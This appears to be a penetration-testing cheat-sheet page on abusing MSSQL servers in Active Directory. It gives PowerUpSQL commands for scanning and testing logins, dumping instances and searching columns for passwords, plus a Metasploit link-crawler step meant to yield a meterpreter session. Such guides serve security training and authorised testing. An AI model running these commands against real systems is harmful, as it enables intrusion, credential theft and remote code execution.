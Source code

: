 # MSSQL AD Abuse

### **MSSQL Enumeration / Discovery** <a href="#mssql-enumeration-discovery" id="mssql-enumeration-discovery"></a>

The PowerShell module [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) is very useful in this case.

Copy

```bash
Import-Module .\PowerupSQL.psd1
```

#### Enumerating from the network without domain session <a href="#enumerating-from-the-network-without-domain-session" id="enumerating-from-the-network-without-domain-session"></a>

Copy

{% code overflow="wrap" %}
```bash
# Get local MSSQL instance (if any)
Get-SQLInstanceLocal
Get-SQLInstanceLocal | Get-SQLServerInfo

#If you don't have an AD account, you can try to find MSSQL scanning via UDP
#First, you will need a list of hosts to scan
Get-Content c:\temp\computers.txt | Get-SQLInstanceScanUDP –Verbose –Threads 10

#If you have some valid credentials and you have discovered valid MSSQL hosts you can try to login into them
#The discovered MSSQL servers must be on the file: C:\temp\instances.txt
Get-SQLInstanceFile -FilePath C:\temp\instances.txt | Get-SQLConnectionTest -Verbose -Username test -Password test
```
{% endcode %}

#### Enumerating from inside the domain <a href="#enumerating-from-inside-the-domain" id="enumerating-from-inside-the-domain"></a>

{% code overflow="wrap" %}
```bash
# Get local MSSQL instance (if any)
Get-SQLInstanceLocal
Get-SQLInstanceLocal | Get-SQLServerInfo

#Get info about valid MSQL instances running in the domain
#This looks for SPNs that start with MSSQL (not always is a MSSQL running instance)
Get-SQLInstanceDomain | Get-SQLServerinfo -Verbose 

#Test connections with each one
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -verbose

#Try to connect and obtain info from each MSSQL server (also useful to check connectivity)
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose

# Get DBs, test connections and get info in Oneliner
Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo
```
{% endcode %}

### &#x20; <a href="#mssql-basic-abuse" id="mssql-basic-abuse"></a>

### MSSQL Basic Abuse <a href="#mssql-basic-abuse" id="mssql-basic-abuse"></a>

#### Access DB <a href="#access-db" id="access-db"></a>

{% code overflow="wrap" %}
```bash
#Perform a SQL query
Get-SQLQuery -Instance "sql.domain.io,1433" -Query "select @@servername"

#Dump an instance (a lotof CVSs generated in current dir)
Invoke-SQLDumpInfo -Verbose -Instance "dcorp-mssql"

# Search keywords in columns trying to access the MSSQL DBs
## This won't use trusted SQL links
Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "password" -SampleSize 5 | select instance, database, column, sample | ft -autosize
```
{% endcode %}

### Metasploit

You can easily check for trusted links using Metasploit.

Copy

{% code overflow="wrap" %}
```batch
#Set username, password, windows auth (if using AD), IP...
msf> use exploit/windows/mssql/mssql_linkcrawler
[msf> set DEPLOY true] #Set DEPLOY to true if you want to abuse the privileges to obtain a meterpreter session
```
{% endcode %}

Notice that Metasploit will try to abuse only the <mark style="color:orange;">**`openquery()`**</mark> function in MSSQL (so, if you can't execute a command with `openquery()` you will need to try the `EXECUTE` method **manually** to execute commands, see more below.)
